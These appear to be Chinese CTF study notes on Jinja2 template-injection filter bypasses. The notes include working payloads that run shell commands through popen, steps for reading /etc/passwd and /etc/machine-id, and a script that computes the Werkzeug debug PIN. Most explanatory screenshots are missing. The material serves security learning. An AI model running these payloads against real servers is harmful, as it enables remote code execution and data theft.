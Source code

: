 
---
# 一、过滤     {{}}

使用
```
{% %}
```
![[屏幕截图 2024-12-16 224208.png]]

# 二、过滤 `[]` 

直接用`__getitem__(xx)`代替`[]`

![[屏幕截图 2024-12-17 194235.png]]


# 三、单，双引号过滤

使用  request
![[屏幕截图 2024-12-17 204241.png]]

代码示例

![[屏幕截图 2024-12-17 204604.png]]

get参数示范

![[屏幕截图 2024-12-17 210413.png]]

解析
![[屏幕截图 2024-12-17 211109.png]]


# 三、下划线过滤

1、过滤器

![[屏幕截图 2024-12-17 212509.png]]

示例
```
a=['HZH']
{{a|lower}}
像管道输出符，输出['hzh']
```

1、结合request
![[屏幕截图 2024-12-17 212935.png]]
```
attr() 把数据当成属性读取出来
通过atrr()和request组合绕过下划线

中括号的值需要用__getitem__()，大括号包括大括号的值不是在request的参数值中

后面的read()也要用attr('read')()

```
![[屏幕截图 2024-12-17 221009.png]]


2、结合编码绕过

![[屏幕截图 2024-12-17 221521.png]]![[屏幕截图 2024-12-17 221658.png]]
![[屏幕截图 2024-12-19 203600.png]]
![[屏幕截图 2024-12-19 203805.png]]
```

code={{()|attr('__class__')|attr('__mro__')|attr('__getitem__')(-1)|attr('__subclasses__')()|attr('__getitem__')(117)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen')("cat /flag")|attr('read')()}}


```

# 四、点绕过 

使用中括号`['__calss__']`
也可用attr
![[屏幕截图 2024-12-19 212107.png]]

# 五、绕过关键词
![[屏幕截图 2024-12-19 213130.png]]
⑤种方法
![[屏幕截图 2024-12-19 213159.png]]

1、
![[屏幕截图 2024-12-19 213829.png]]
2、
翻转
![[屏幕截图 2024-12-19 214024 1.png]]

![[屏幕截图 2024-12-19 214155.png]]
3、ASCII码
![[屏幕截图 2024-12-19 214457.png]]

# 六、过滤数字

过滤器length
```
原理：先用过滤器计算出需要的数字
后面加入就行
```
![[屏幕截图 2024-12-19 215759.png]]

# 七、config获取

使用内置函数，迂回绕过，找到current_app模块下的config
![[屏幕截图 2024-12-19 220516.png]]

![[屏幕截图 2024-12-19 220650.png]]

# 八、混合过滤

拼接字符
![[屏幕截图 2024-12-20 210502.png]]

获取符号
![[屏幕截图 2024-12-20 211610.png]]


绕过示例
![[屏幕截图 2024-12-20 212807.png]]

```
code={%25set a=({}|select()|string()|list)[10]%25}{%25set b=((dict(cat=1)|join,a,dict(flag=1)|join)|join)%25}{{b}}
拼接成cat flag

pop可以代替__getitem__
```

七、debug ping码计算

![[屏幕截图 2024-12-20 224015.png]]


![[屏幕截图 2024-12-20 224056.png]]

第二、三个一般是不会变的

![[屏幕截图 2024-12-21 131344.png]]![[屏幕截图 2024-12-21 131458.png]]

![[屏幕截图 2024-12-21 131521.png]]

这个比较重要
![[屏幕截图 2024-12-21 131852.png]]

![[屏幕截图 2024-12-21 133807.png]]

搭配文件读取漏洞可debug
username        /etc/passwd
mod      使用venv可以看报错，没有则可以使用默认路径
![[屏幕截图 2024-12-21 145727.png]]
uuid(mac地址)  根据不同的操作系统读取  
![[屏幕截图 2024-12-21 145613.png]]
读取`/usr/local/lib/python3.7/site-packages/werkzeug/debug/__init__.py`
machine_id 
linux   直接读取`/etc/machine-id`
docker    `/etc/machine-id+/proc/self/cgroup`
`self`过滤
其中的`self`可以用相关进程的pid去替换,其实`1`就行
`cgroup`过滤
可以考虑`mountinfo`或者`cpuset`
```python
大概格式pyload，不同版本的不太相同

import hashlib  
from itertools import chain  
  
  
probably_public_bits=['huangzonghui',  
              'flask.app',  
              'Flask',  
              'E:\\BaiduNetdiskDownload\\python\\venv\\Lib\\site-packages\\flask\\app.py'  
              ]  
  
  
private_bits=['228944701361255',  
            b'26e9327f-a96f-4e1e-836f-bc63462e2b1d'  
                ]  
  
  
num=None  
rv=None  
  
h = hashlib.sha1()  
for bit in chain(probably_public_bits, private_bits):  
    if not bit:  
        continue  
    if isinstance(bit, str):  
        bit = bit.encode()  
    h.update(bit)  
h.update(b"cookiesalt")  
  
cookie_name = f"__wzd{h.hexdigest()[:20]}"  
  
  
if num is None:  
    h.update(b"pinsalt")  
    num = f"{int(h.hexdigest(), 16):09d}"[:9]  
  
  
if rv is None:  
    for group_size in 5, 4, 3:  
        if len(num) % group_size == 0:  
            rv = "-".join(  
                num[x : x + group_size].rjust(group_size, "0")  
                for x in range(0, len(num), group_size)  
            )  
            break  
    else:  
        rv = num  
print(rv)



```